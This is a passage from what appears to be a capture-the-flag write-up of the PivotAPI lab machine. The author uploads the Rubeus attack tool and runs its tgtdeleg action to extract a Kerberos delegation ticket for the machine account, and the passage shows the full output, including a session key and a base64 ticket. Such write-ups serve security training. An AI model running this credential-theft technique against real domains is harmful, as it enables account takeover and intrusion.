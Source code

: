 I'll use the [Rubeus](https://github.com/GhostPack/Rubeus) tool to carry
out the attack. The Rubeus repo doesn't keep compiled binaries, but the
[SharpCollection](https://github.com/Flangvik/SharpCollection) repo is a
bunch of pre-compiled Windows attack tools.

I'll grab the `Rubeus.exe` from `NewFramework_4.0_Any` and upload it to
PivotAPI.

#### Get Ticket

Now I'll use `Rubeus.exe` to first get a fake delegation ticket for the
machine account:



    CMD MSSQL$SQLEXPRESS@PIVOTAPI C:\ProgramData> .\Rubeus.exe tgtdeleg /nowrap

       ______        _                      
      (_____ \      | |                     
       _____) )_   _| |__  _____ _   _  ___ 
      |  __  /| | | |  _ \| ___ | | | |/___)
      | |  \ \| |_| | |_) ) ____| |_| |___ |
      |_|   |_|____/|____/|_____)____/(___/

      v2.0.0 


    [*] Action: Request Fake Delegation TGT (current user)

    [*] No target SPN specified, attempting to build 'cifs/dc.domain.com'
    [*] Initializing Kerberos GSS-API w/ fake delegation for target 'cifs/PivotAPI.LicorDeBellota.htb'
    [+] Kerberos GSS-API initialization success!
    [+] Delegation requset success! AP-REQ delegation ticket is now in GSS-API output.
    [*] Found the AP-REQ delegation ticket in the GSS-API output.
    [*] Authenticator etype: aes256_cts_hmac_sha1
    [*] Extracted the service ticket session key from the ticket cache: 6g2Dq2qtY+Nv3ER+m552rbUHenFM3DxlEdB/yjj3ssg=
    [+] Successfully decrypted the authenticator
    [*] base64(ticket.kirbi):

          doIFeDCCBXSgAwIBBaEDAgEWooIEajCCBGZhggRiMIIEXqADAgEFoRQbEkxJQ09SREVCRUxMT1RBLkhUQqInMCWgAwIBAqEeMBwbBmtyYnRndBsSTElDT1JERUJFTExPVEEuSFRCo4IEFjCCBBKgAwIBEqEDAgECooIEBASCBABJUJ+3dI0WAc0Nc/skPSgNY06KqGmwSNChX7FUMhYv+0MfoPwC4fKCbSO0nnDq1/RDQaUNRcqWl1D1l
    dEObdHU6YyV0ebo6pZ8i4suKjXTX5M/gVz4ONSE4x05HHLSKI1wbmX7lWemSd5vzBmd9pgvp8D8CzN270ncW/c+gbcdv9OJ3EFNChci54AoUm1GbTlV4VJk8bLeTaSG9TmtQc/7pzXxcjBXbQ2hyfh4RaYFfg2LVmPv2x2Dr1/WhhcEaL/TrnIaWnhxZs6kIfmiHqh9c3ZGEgeuW3I9fwd+mUMCJqKOXSCdtgBUh70E+xHasNCqv/WCIfbb/II9
    SHdDCI8Gj7eeRyeL+JY/YOXnHEtDtBcOHOmRHl+pTSRp3gDJyvpv5a7jdZD/4NDnlXtLOTPogKl90NRqpl5TyZShaCT8zso1yOGShy9e62LPTIpGGdEn+0QkilTu6SnKMvFP8peypzXCSHdbigKxrXnCpOlih0cS3RFvOS0l/NWiu2rz1Jf9OK4eStuDaE2MhP+58kozQRyAhKCAVQw02V9g+r9jR+3xe96mKHG00ZPwLRgpRVfcHypgfWy9Hqr
    MtvO8tZpsbpd/+r32bGgce2aVtZp0rgq3NK1aD/ORE4V6AmynfgsQ+S4d53Dc76511AVtS1t11E6I1ilJVcMH+KnxGxOHi578pKSWHNPoUE5aQ58alCYIbljJcM/En16v+r+xM/rr8n9o483ma8b5KBuye5LZ1UB8IwlXSQSZbnB5y0cunIYgdfeBfBBB82ZWQcOx+kDyJIC/LkjBLxdpvPY8iqgk5GSn1KAQAu4lsFbgoRgT0BwhaueURGWNGy
    gRyNe7tPxUp3WJCTrItYEG+JHcERBorY17wvPZ24QcCEjf26k1PiedA0LplVSVzjW+c8dka3JZfsB0hC5HAJzairIt5yFIUy+iuFSNC3aRYUfxXrtGJYNmfwjHsWiUX3sFBUTnSmwZIqB9dgE175fto4C9EEjdOGtQBKHde9Y8foxEJaosVg6XTHNPpft5hmly0uQlEuVFIBOEbMaZ/NfJ7frBF/rMrdR8w2ZLp2+F6A/Akww+5TukENgPCszCL
    P7Y70VP4FXVK34r0JnEg4E8OoMs45iFN3eT9PU/kwNRCthxPx9xKvJd6cT9tzS8x9DbODLTbwhWrVIgTYXk6Fdlh/ogJXOd/DyF6ied0JEmy1znWnLwV2Vf+/ERnKEe0OJup3Pvsy8eNygMLBSMZ50K52Mr0oxplFP4rYXuR1hEoqgXJM++C+R7w4SUcNdtq7VcTpZkphV55YG6YugAaCOvrkwh66vgu0gQ39wrl23aWmli93cGdYC7+v4LzlXm
    qu5j15djwxPFo4H5MIH2oAMCAQCige4Eget9gegwgeWggeIwgd8wgdygKzApoAMCARKhIgQgaAtQsYwuKV21JRM2y619pvqa/Kam3r7S+Pi4vd6wVHChFBsSTElDT1JERUJFTExPVEEuSFRCohYwFKADAgEBoQ0wCxsJUElWT1RBUEkkowcDBQBgoQAApREYDzIwMjExMTA3MjExODE5WqYRGA8yMDIxMTEwODA3MTgxOVqnERgPMjAyMTExMTQ
    yMTE4MTlaqBQbEkxJQ09SREVCRUxMT1RBLkhUQqknMCWgAwIBAqEeMBwbBmtyYnRndBsSTElDT1JERUJFTExPVEEuSFRC
